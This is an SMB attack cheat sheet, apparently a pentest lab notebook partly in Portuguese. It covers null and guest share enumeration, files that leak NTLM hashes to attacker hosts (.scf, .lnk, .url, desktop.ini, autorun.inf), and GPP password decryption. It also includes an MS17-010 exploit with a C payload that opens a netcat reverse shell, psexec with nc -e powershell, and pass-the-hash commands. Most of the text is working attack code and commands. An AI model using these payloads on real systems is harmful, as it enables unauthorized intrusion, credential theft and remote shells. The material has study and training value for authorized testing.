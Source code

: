 SMB
========================

OBS: Para que comporte todos as versões de protocolo, temos que informar o seguinte no arquivo de configuração:

    [global]

    #### Kali configuration (use kali-tweaks to change it) ####

    # By default a Kali system should be configured for wide compatibility,
    # to easily interact with servers using old vulnerable protocols.
       #client min protocol = LANMAN1
       client min protocol = CORE
       client max protocol = SMB3

    ## Browsing/Identification ###
    #   force user = acosta

    # Change this to the workgroup/NT-domain name your Samba server will part of
    #   workgroup = REDECORP

## Null session and guest

### smbmap

null session

    smbmap -H 10.11.1.227 -u '' -p ''

user guest

    smbmap -H 10.11.1.227 -u guest -p ''
    
### smbclient

    smbclient -L 10.11.1.227 -U 'workgroup/guest'
    <ENTER>
    smbclient -U 'workgroup/guest' //10.11.1.227/share
    <ENTER>

Para conseguir fazer enunmeração mais rapidamente, é interessante que utilizemos o recurso de recursividade no smbclient com os seguintes comandos:

    recurse on
    dir

Desta forma, basta exxecutar esses dois comandos para ele fazer a busca via dir recursivamente

### Crackmapexec

    crackmapexec smb <hostname> -u '' -p '' --shares
    
    crackmapexec smb <hostname> -u 'guest' -p '' --shares
    


## Obtain NTLM hashes (write access)

source https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

### SCF files

    [Shell]
    Command=2
    IconFile=\\10.10.14.4\smb\uwu.ico
    [Taskbar]
    Command=ToggleDesktop

    sudo responder -I tun0

### Internet Shortcuts (.url)

Another shortcut in Windows is the Internet shortcuts. You can save this as something.url

    echo [InternetShortcut] > stealMyHashes.url 
    echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url

### Shortcut Files (.lnk)

We can create a shortcut containing our network path and as you as you open the shortcut Windows will try to resolve the network path. You can also specify a keyboard shortcut to trigger the shortcut. For the icon you can give the name of a Windows binary or choose an icon from either shell32.dll, Ieframe.dll, imageres.dll, pnidui.dll or wmploc.dll located in the system32 directory.
```
[code language=”vb”]
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
[/code]

The Powershell version.
[code language=”powershell”]
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut(&quot;StealMyHashes.lnk&quot;)
$lnk.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
$lnk.WindowStyle = 1
$lnk.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
$lnk.Description = &quot;I will Steal your Hashes&quot;
$lnk.HotKey = &quot;Ctrl+Alt+O&quot;
$lnk.Save()
[/code]
```
### Windows Script Files

Save this as something.wsf.

```
[code language=”xml”]
&lt;package&gt;
&lt;job id=&quot;boom&quot;&gt;
&lt;script language=&quot;VBScript&quot;&gt;
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
Set file = fso.OpenTextFile(&quot;//192.168.0.100/aa&quot;, 1)
&lt;/script&gt;
&lt;/job&gt;
&lt;/package&gt;
[/code]
```

### Desktop.ini

The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

    mkdir openMe
    attrib +s openMe
    cd openMe
    echo [.ShellClassInfo] > desktop.ini
    echo IconResource=\\192.168.0.1\aa >> desktop.ini
    attrib +s +h desktop.ini


In Windows XP systems the desktop.ini file uses ‘IcondFile’ instead of ‘IconResource’.

    [.ShellClassInfo]
    IconFile=\\192.168.0.1\aa
    IconIndex=1337

### Autorun.inf

Starting from Windows 7 this feature is disabled. However you can enable by changing the group policy for Autorun. Make sure to hide the Autorun.inf file to work.

    [autorun]
    open=\\35.164.153.224\setup.exe
    icon=something.ico
    action=open Setup.exe

## GPP Group.xml

Essa pasta geralmente se encontra dentro do diretório SYSVOL (compartilhado)

    ./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

Nesse cenário, basta executarmos uma ferramenta para decriptar a senha armazenada neste arquivo:

    git clone https://github.com/t0thkr1s/gpp-decrypt
    python3 gpp-decrypt.py -f [groups.xml]
    #ou
    python3 gpp-decrypt.py -c [cpassword]

## CVEs/Exploits

### ms17-010

    tools
    cd cve/2017-0143/impacket
    source exploit_ms17-010/bin/activate

Nesse momento já temos o ambiente preparado para execução do script, mas temos que preparar o paylolad pra funcionar:

    #include<stdlib.h>
    
    int main() {
    
            int i;
            i = system("START /B \\\\192.168.119.156\\smb\\nc.exe 192.168.119.156 80 -e cmd");
            return 0;
    }
Adequar este payload toda vez que for utilizá-lo

    i686-w64-mingw32-gcc backup.c -o backup.exe
    
    impacket-smbserver -smb2support smb /usr/share/windows-binaries
    nc -nlvp 80
    python ../impacket/send_and_execute.py 10.11.1.227 ../payload/backup.exe
    

## Psexec

baixar do sysinternals

    .\psexec -d -s -i ".\nc.exe -e powershell 10.10.14.14 8081"

## Pass the hash

Impacket and evil-winrm

```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```
